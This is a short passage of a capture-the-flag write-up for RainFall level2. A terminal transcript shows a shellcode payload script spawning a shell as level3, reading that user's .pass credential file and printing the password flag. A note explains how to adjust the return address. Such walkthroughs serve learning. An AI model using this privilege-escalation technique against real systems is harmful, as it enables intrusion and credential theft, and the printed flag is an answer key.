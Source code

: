 Read the requirements in payload.sh, then simply execute it from anywhere, here I placed it at /tmp/buffer.sh:

```sh
level2@RainFall:~$ /tmp/payload.sh 
/tmp/payload.sh: line 1: EQUIREMENTS:: command not found
j
 X�Rh//shh/bin��1�̀������������������������������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Nothing appears when executing the .sh besides the this weird combination of characters but you are indeed in a new shell.
*The reproduction made on source.c will probably have a completely different address tho, then you can replace ADDRESS_LITTLE_ENDIAN variable in the payload.sh script. (See README.md to know how to find the new address)*